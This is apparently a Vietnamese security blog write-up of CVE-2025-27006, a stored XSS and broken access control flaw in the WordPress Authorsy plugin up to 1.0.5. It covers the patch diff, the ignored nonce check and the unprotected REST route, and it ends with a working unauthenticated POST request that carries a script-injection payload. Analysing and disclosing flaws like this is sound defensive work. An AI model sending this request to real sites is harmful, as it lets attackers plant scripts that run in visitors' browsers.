



---

Lỗ hổng xảy ra trên plugin **Authorsy** của WordPress trước phiên bản **1.0.6**. Điều này có thể cho phép kẻ tấn công chèn mã độc (ví dụ: script chuyển hướng, quảng cáo, hoặc các payload HTML khác) vào website, và những mã đó sẽ được thực thi khi khách truy cập mở trang.

* **CVE ID**: [CVE-2025-27006](https://www.cve.org/CVERecord?id=CVE-2025-27006)
* **Product**: [WordPress Authorsy Plugin](https://wordpress.org/plugins/authorsy/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.0.5
* **CVSS severity**: Medium (6.5)
* **OWASP Top 10**: A1: Broken Access Control
* **Required Privilege**: Subscriber

> Trong mô tả yêu cầu đặc quyền **Subscriber** nhưng thực ra có thể khai thác **Unauthenticated**.

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/blog/2025-08-21-wordpress-local-and-debugging/)
* **Authorsy**: v1.0.5(vul) và v1.0.6(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis

Ứng dụng có chức năng tùy chỉnh CSS, lưu dữ liệu trong `wp_options` và chèn trực tiếp vào `<style>` trên trang. Tuy nhiên, người dùng có thể tương tác với API để chỉnh sửa dữ liệu CSS mà **không bị kiểm soát quyền**, dẫn đến nguy cơ **Broken Access Control** và có thể **XSS** nếu chèn payload độc hại.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở 2 file **core/settings/api-settings.php** và **core/enqueue-inline/enqueue-inline.php**

**File core/enqueue-inline/enqueue-inline.php**

```php
public function custom_inline_css()
{
    $custom_css  = '';
    // other logic
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single()){
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    // other custom
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

Dữ liệu từ người dùng trước khi thêm vào HTML không được kiểm soát, không có cơ chế bảo vệ => dễ bị **XSS**.

```php
public function custom_inline_css()
{
    $custom_css  = '';
    // other logic
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single() && !empty($ea_custom_css)){
        // Additional sanitization for output to prevent XSS
        $ea_custom_css = wp_strip_all_tags($ea_custom_css);
        $ea_custom_css = esc_html($ea_custom_css);
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    // other custom
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

Bản vá bảo vệ dữ liệu bằng **sanitize** + **escape**, đồng thời kiểm tra **CSS** có tồn tại trước khi chèn.



**File core/settings/api-settings.php**

```php
class Api_Settings extends Api {
    protected $namespace = 'authorsy/v1';
    protected $rest_base = 'settings';

    public function register_routes() {
        register_rest_route(
            $this->namespace, $this->rest_base, [
                [
                    'methods'             => \WP_REST_Server::READABLE,
                    'callback'            => [$this, 'get_settings'],
                    'permission_callback' => function () {
                        return true;
                    },
                ],
                [
                    'methods'             => \WP_REST_Server::EDITABLE,
                    'callback'            => [$this, 'update_settings'],
                    'permission_callback' => function () {
                        return true;
                    },
                ],
            ]
        );
 
    }

    public function get_settings() {
        // other logic
    }

    public function update_settings( $request ) {
       // other logic
    }
}
```

Ứng dụng đăng ký **REST API** bằng `register_rest_route` nhưng không kiểm soát quyền truy cập (`permission_callback` luôn `true`) => Ai cũng có thể sử dụng **API** này.

```php
class Api_Settings extends Api {
    protected $namespace = 'authorsy/v1';
    protected $rest_base = 'settings';

    public function register_routes() {
        register_rest_route(
            $this->namespace, $this->rest_base, [
                [
                    'methods'             => \WP_REST_Server::READABLE,
                    'callback'            => [$this, 'get_settings'],
                    'permission_callback' => function () {
                        return current_user_can('manage_options');
                    },
                ],
                [
                    'methods'             => \WP_REST_Server::EDITABLE,
                    'callback'            => [$this, 'update_settings'],
                    'permission_callback' => function () {
                        return current_user_can('manage_options');
                    },
                ],
            ]
        );
 
    }

    public function get_settings() {
        // other logic
    }

    public function update_settings( $request ) {
       // other logic
    }
}
```

`permission callback` được vá, chỉ **admin** quản lý được settings, bảo vệ chống **Broken Access Control** và gián tiếp giảm nguy cơ **XSS**.



### How it work?

```php
class Enqueue_Inline
{
    public function init()
    {
        add_action('wp_head', array($this, 'custom_inline_css'));
    }
    // other logic
    public function custom_inline_css()
    {
        $custom_css  = '';
        // other logic
        $primary_color = authorsy_get_option('primary_color');
        $ea_custom_css = authorsy_get_option('ea_custom_css');
        if(is_single()){
            $custom_css.= $ea_custom_css;
        }
     
        $custom_css .= "
        :root { 
            --ea-color-main: $primary_color;  
        }
        // other custom
        "
        wp_add_inline_style('authorsy-custom-css', $custom_css);
    }
}
```

`custom_inline_css` được dùng làm **callback** cho hook [`wp_head`](https://developer.wordpress.org/reference/hooks/wp_head/).
Nghĩa là khi WP render phần `<head>` của trang (ngay trước `</head>`), WP sẽ chạy `custom_inline_css()` để thêm CSS.

Trong `custom_inline_css` chuỗi `$custom_css` được tạo, dùng để chứa:

* Nội dung các biến cấu hình lấy từ `authorsy_get_option()` và một số logic khác.
* Chúng được nối, thêm vào `$custom_css` trước khi `wp_add_inline_style()` được gọi để thêm vào `<head>`.

```php
function authorsy_get_option( $key = '', $default = false ) {
    $options = get_option( 'authorsy_settings' );
    $value   = $default;

    if ( isset( $options[$key] ) ) {
        $value = ! empty( $options[$key] ) ? $options[$key] : $default;
    }

    return $value;
}
```

`authorsy_get_option` lấy mảng tất cả các option của plugin **Authorsy** được lưu trong bảng `wp_options` bằng `get_option('authorsy_settings')`.

Sau đó kiểm tra xem key có tồn tại trong mảng `options` không. Nếu giá trị không rỗng, gán vào `$value`, nếu rỗng thì giữ `default`.

👉 Vì dữ liệu được lưu trữ rồi mới render ra HTML nên đây là **Stored XSS**

---

Khi truy cập `/wp-json/authorsy/v1/settings` với **method POST** => `update_settings` được gọi không yêu cầu đặc quyền.

```php
public function update_settings( $request ) {
    $options = json_decode( $request->get_body(), true );

    $this->verify_nonce( $request );

    $data = [
        'status_code' => 200,
        'success'     => 1,
        'message'     => esc_html__( 'Settings successfully updated', 'authorsy' ),
        'data'        => authorsy_get_settings(),
    ];

    if ( $options ) {
        foreach ( $options as $key => $value ) {
            authorsy_update_option( $key, $value );
        }
    }

    $data['data'] = authorsy_get_settings();

    return rest_ensure_response( $data );
}
```

Hàm `update_settings` nhận dữ liệu **JSON** từ request, decode thành các cặp **key-value** và cập nhật chúng vào cơ sở dữ liệu. Trước khi thực hiện update, ứng dụng gọi `$this->verify_nonce( $request );` để kiểm tra **nonce**.

```php
public static function verify_nonce($request) {
    $nonce = $request->get_header('X-WP-Nonce');

    if (!wp_verify_nonce($nonce, 'wp_rest')) {
        return new \WP_Error('invalid_nonce', __('Invalid nonce.', 'authorsy'), ['status' => 403]);
    }

    return true;
}
```

Điểm quan trọng:

* Khi **nonce** không hợp lệ, hàm chỉ trả về một đối tượng `WP_Error`, nhưng không dừng chương trình.
* Trong `update_settings`, giá trị trả về của **verify_nonce** không được kiểm tra => code vẫn tiếp tục thực hiện cập nhật.

👉 Như vậy, ta có thể thay đổi giá trị của CSS chứa XSS payload trong database mà không cần đặc quyền gì cả => CSS được thêm vào `<head>` chứa mã độc

---

## Exploit

### Detect XSS

Gửi **POST** request đến `/wp-json/authorsy/v1/settings` với XSS payload

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost

Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

Ta đóng thẻ `<style>` (CSS trong head) và inject thêm thẻ `<script>` chứa XSS payload.

Truy cập một trang bất kỳ



👉 XSS thành công, **inspect** để xem code được thay đổi như nào

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

---

## Conclusion

Lỗ hổng `CVE-2025-27006` trong plugin **Authorsy <= 1.0.5** là một ví dụ điển hình về **Broken Access Control** kết hợp với **XSS**. Nguyên nhân chính là:

1. **REST API** không kiểm soát quyền truy cập: bất kỳ user nào cũng có thể gọi `/wp-json/authorsy/v1/settings` để thay đổi các option.
2. **CSS** tùy chỉnh chưa được **sanitize**: giá trị CSS được chèn trực tiếp vào `<style>` trong `<head>`, cho phép kẻ tấn công inject payload `<script>` thông qua CSS.
   Nonce không được xử lý đúng: **verify_nonce** chỉ trả về **WP_Error** mà không ngăn code thực thi, khiến việc kiểm tra bảo mật gần như vô hiệu.

**Key takeaways**:

* **REST API** cần kiểm soát quyền: luôn sử dụng `permission_callback` hợp lý để ngăn **Broken Access Control**.
* Sanitize dữ liệu người dùng trước khi render trong HTML/CSS/JS để phòng **XSS**.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[ WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS) ](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)

---
